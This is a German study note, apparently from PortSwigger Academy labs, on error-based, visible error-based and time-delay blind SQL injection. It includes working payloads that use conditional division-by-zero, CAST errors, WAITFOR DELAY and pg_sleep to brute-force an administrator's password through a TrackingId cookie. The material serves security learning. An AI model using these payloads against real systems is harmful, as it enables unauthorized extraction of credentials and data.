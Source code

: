 ```yaml
---
created:
  - "{{date: DD-MM-YYYY}} {{time}}"
aliases:
  - "Course Code:"
  - PSS-Portswigger-Academy
tags:
  - Course/
---
```

## Was ist Error-Based SQL-Injection

Wie der Name schon sagt, anhand von Fehlermeldungen lässt sich diverses Verhalten zwischen App und Datenbank nachvollziehen und ggf. ausnutzen
- Man provoziert einen DB-Fehler **nur dann**, wenn eine getestete Bedingung zutrifft
	- Man verpackt die Bedingung in eine Ausdrucksform die bei True einen Fehler verursacht(z. B. Division durch Null)

Das könnte man dann wie folgt aufbauen:
```sql
xyz' AND (SELECT CASE WHEN (1=2) THEN 1/0 ELSE 'a' END)='a
xyz' AND (SELECT CASE WHEN (1=1) THEN 1/0 ELSE 'a' END)='a
```
Hier sehen wir das Ergebnis wenn unser Input false ist![[ERROR_BASED_SQLI1.png]]Hier sehen wir das Ergebnis wenn unser Input true ist![[ERROR_BASED_SQLI2.png]]

In diesem Fall benutzen wir den 'CASE' Aufruf
- In dem ersten Fall evaluieren wir zu a weil Ergebnis false
- In dem zweiten Fall evaluieren wir zu Error weil macht `1/0` und wir können nicht durch 0 teilen

Und dann kann man Anfragen wie folgt bauen:
```sql
xyz' AND (SELECT CASE WHEN (Username = 'Administrator' AND SUBSTRING(Password, 1, 1) > 'm') THEN 1/0 ELSE 'a' END FROM Users)='a
```

## Lab: Blind SQL injection with conditional errors(Oracle)

##### Passwortlänge herausfinden -> Im Intruder dann bruteforcen
```sql
TrackingId=EVe4hpFzFe2H0qvD' AND (SELECT CASE WHEN (LENGTH(password) > §20§) THEN TO_CHAR(1/0) ELSE 'a' END FROM users WHERE username='administrator') = 'a'--;
```

##### Passwort brute-forcen
```sql
TrackingId=EVe4hpFzFe2H0qvD' AND (SELECT CASE WHEN (SUBSTR(password, 1, 1) < 'a') THEN TO_CHAR(1/0) ELSE 'a' END FROM users WHERE username='administrator') = 'a'--;
```

Jetzt setzen wir folgendes PAYLOAD zusammen und bruteforcen jeden einzelnen Character![[ERROR_BASED_SQLI3.png]]Unser Turbo-Intruder liefert uns folgendes Ergebnis.![[ERROR_BASED_SQLI4.png]]


###  Auslegen von Daten durch Fehlernachrichten
 Gelegentlich kann auch die Fehlermeldung sensible Daten aus der tatsächlichen Abfrage enthalten.

```sql
Unterminated string literal started at position 52 in SQL SELECT * FROM tracking WHERE id = '''. Expected char
```

Diese Meldung zeigt die gesamte Abfrage, die die Anwendung aus den Eingaben konstruiert hat.
Dadurch lässt sich das Verhalten zwischen App und DB auch nochmal besser begutachten.
Das verwandelt die sonst blinde injection in eine visible injection.

Mit der `CAST()` Funktion können wir Datentypen in einen anderen konvertieren.
z. B.

```sql
CAST((SELECT example_column FROM example_table) AS int)
```
Oft sind die zu lesenden Daten Zeichenketten (Strings). Wenn du versuchst, diese in einen inkompatiblen Datentyp wie `int` zu konvertieren, kann das einen Fehler wie den folgenden erzeugen:

```sql
ERROR: invalid input syntax for type integer: "Example data"
```
Solche Abfragen sind außerdem nützlich, wenn ein Limit der Zeichenlänge verhindert, dass du konditionale Antworten (true/false) auslösen kannst - ein Fehler mit eingebettetem Inhalt kann dann die einzige Möglichkeit zur Datenexfiltration sein.


## Lab: Visible error-based SQL injection

1. Erstmal wieder rumprobieren und schauen wo die App SQL Querys baut.
	1. Wir fügen `'` an mehrere Inputs und sehen bei TrackingID kommt ein SQL Query Error.
![[sqli_error_based_injection1.PNG]]
2. Wir kommentieren den rest aus aus der Anfrage und sehen kein Fehler mehr -> also wissen wir, dass es anschlägt.
![[sqli_error_based_injection2.PNG]]
3. Wir casten zu int und schauen was passiert -> wir sehen, dass es ein boolean Type sein muss, kein Integer.
![[sqli_error_based_injection3.PNG]]
4. Wir passen die Anfrage an mit einem 1= um einen boolean daraus zu machen und sehen wieder, kein Fehler.
![[sqli_error_based_injection4.PNG]]
5. Nun versuchen wir auf username Tabelle von Users zuzugreifen, aber sehen wieder eine Fehlermeldung -> Syntaxerror weil unser Request abgeschnitten wurde.  Vermutung liegt bei Character-Limit.
![[sqli_error_based_injection5.PNG|1000]]
6. Wir entfernen die TrackingID um den request kürzer zu machen in der Hoffnung wir sind innerhalb des Limits -> Die neue Fehlermeldung sagt, dass zu viele Reihen geliefert werden.
![[sqli_error_based_injection6.PNG]]
7. Wir setzen bei der Abfrage ein Limit auf 1 und sehen dann den Admin weil der wahrscheinlich als erstes in der DB angelegt wurde.
![[sqli_error_based_injection7.PNG]]
8. Das gleiche wiederholen wir mit der Password Tabelle.
![[sqli_error_based_injection8.PNG]]


## Triggering Time-Delays during exploiting

Wenn die Applikation alle Fehlermeldungen ordnungsgemäß behandelt bekommen wir keine Infos über den Zustand der Datenbank. In diesem Fall könnte man auf Time-Delays triggern während requests.
```sql
'; IF (1=2) WAITFOR DELAY '0:0:10'-- 
'; IF (1=1) WAITFOR DELAY '0:0:10'--
```

davon könnte man dann beispielsweise wie folgt Gebraucht machen
```sql
'; IF (SELECT COUNT(Username) FROM Users WHERE Username = 'Administrator' AND SUBSTRING(Password, 1, 1) > 'm') = 1 WAITFOR DELAY '0:0:{delay}'--
```


## Lab: Blind SQL injection with time delays and information retrieval

1. `TrackingId=x'%3BSELECT+CASE+WHEN+(1=1)+THEN+pg_sleep(5)+ELSE+pg_sleep(0)+END--`
	1. %3B = `;`
2. `TrackingId=x'%3BSELECT+CASE+WHEN+(1=2)+THEN+pg_sleep(10)+ELSE+pg_sleep(0)+END--`
	1. Funktioniert. weil Verarbeitung dauert bei Korrektheit länger
3. Jetzt bauen wir eine neue Anfrage mit 
```sql
TrackingId=x'%3BSELECT+CASE+WHEN+(username='administrator')+THEN+pg_sleep(10)+ELSE+pg_sleep(0)+END+FROM+users--
```
4. Wir sehen es schlägt an also können wir davon ausgehen, dass es einen User mit dem Namen gibt
5. Dann fügen wir das selbe für Passwort ein und überprüfen die Länge des Passworts. 
```sql
x'%3BSELECT+CASE+WHEN+(username='administrator' AND+LENGTH(password)>1)+THEN+pg_sleep(2)+ELSE+pg_sleep(0)+END+FROM+users--
```
4. Danach können wir nach dem selben Prinzip jede Stelle des Passworts ablaufen -> BruteForce Script im Turbo Intruder und dann nach Response-Time filtern
```sql
x'%3BSELECT+CASE+WHEN+(username='administrator' AND+SUBSTRING(password,PLACEHOLDER1,1)='PLACEHOLDER2')+THEN+pg_sleep(2)+ELSE+pg_sleep(0)+END+FROM+users--
```